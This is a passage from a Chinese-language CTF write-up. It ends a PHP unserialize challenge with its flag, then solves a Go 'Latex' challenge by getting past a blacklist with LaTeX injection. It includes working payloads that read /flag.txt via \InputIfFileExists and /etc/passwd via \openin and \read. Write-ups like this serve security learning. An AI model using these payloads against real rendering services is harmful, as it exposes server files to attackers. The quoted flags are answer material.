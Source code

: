 ![在这里插入图片描述](https://img-blog.csdnimg.cn/f38fc1cdac46422bb3388b918944ee8e.png)
执行成功，那么直接访问那个txt文件就行了。

flag：**TCP1P{unserialize in php go brrrrrrrr ouch}**

## Latex

还是先看基本信息：

![在这里插入图片描述](https://img-blog.csdnimg.cn/d712f033e0bd4c01bd8407e2606463de.png)

显然是一道Latex的题，有可能考nday，一般都是可以直接秒。

看一下基本结构：
![在这里插入图片描述](https://img-blog.csdnimg.cn/953edc131f8b459d9a6fed910e9a06b7.png)
一道go，比较有意思起来。

看**main.go**可以发现，就是接受你的参数并用gotex渲染，唯一的防护方式就是黑名单。

![在这里插入图片描述](https://img-blog.csdnimg.cn/46f8213157f942e880891548b210f34a.png)
看看黑名单：
![在这里插入图片描述](https://img-blog.csdnimg.cn/111a0f75151d454e9fdf357e908e3c22.png)
那你只要熟悉latex命令，这道题直接秒了。如果不熟悉，浪费的时间成本也只是搜索而已。

但搜索也是需要技巧的，这里想啰嗦一下。

如果你直接搜bypass，那大概率就是这样的文章：

[Latex Injection](https://exexute.github.io/2019/04/24/how-hacking-with-LaTex/)

写的很好，但这里直接把write给你禁了，你是否就不知道变通了呢？

这时候我们完全可以去看官方文档，不要怕麻烦：

[Latex Document](https://www.latex-project.org/help/documentation/#general-documentation)

你会发现官方文档才是最全的。。当然如果你Latex基本功很好，那就直接秒（基本功）：

```php
\documentclass{article}
\begin{document}
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
$\InputIfFileExists{/flag.txt}$
test
\end{document}
```
直接用\InputIfFileExists 不就绕过了。。类似函数还很多。

市面上的文章基本围绕：

```php
\input
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```
但实际上方法很多。研究安全要沉得下心。
